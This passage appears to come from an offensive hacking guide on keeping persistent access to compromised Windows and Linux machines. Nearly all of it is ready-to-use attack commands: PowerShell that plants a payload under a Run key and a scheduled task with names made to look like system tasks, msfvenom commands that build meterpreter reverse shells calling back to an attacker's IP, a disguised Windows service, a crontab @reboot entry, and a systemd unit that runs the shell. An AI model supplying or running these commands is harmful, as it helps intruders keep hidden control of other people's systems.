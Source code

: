 **Add this persistence code to your payload:**
```powershell
# Registry Run Key persistence
$regPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$payloadPath = "$env:APPDATA\persistent.exe"
Copy-Item $MyInvocation.MyCommand.Path $payloadPath
Set-ItemProperty -Path $regPath -Name "WindowsUpdate" -Value $payloadPath

# Scheduled Task persistence
$action = New-ScheduledTaskAction -Execute $payloadPath
$trigger = New-ScheduledTaskTrigger -AtLogOn -User $env:USERNAME
Register-ScheduledTask -TaskName "SystemMaintenance" -Action $action -Trigger $trigger -Force
```

### Service-Based Persistence
```bash
# Create service-compatible payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f exe \
  -o service_shell.exe
```

**Service installation commands:**
```cmd
sc create "WindowsUpdateService" binPath= "C:\Path\To\service_shell.exe" start= auto
sc start "WindowsUpdateService"
```

---

## Linux Persistence Methods

### Cron Job Persistence
```bash
# Create Linux payload
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f elf \
  -o shell.elf
```

**Add to crontab:**
```bash
# Add to user's crontab
(crontab -l; echo "@reboot /tmp/shell.elf") | crontab -

# Or system-wide
echo "@reboot /tmp/shell.elf" >> /etc/crontab
```

### Systemd Service Persistence
```bash
# Create systemd service file
echo "[Unit]
Description=System Maintenance Service
After=network.target

[Service]
Type=simple
ExecStart=/tmp/shell.elf
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target" > /etc/systemd/system/system-maintenance.service

```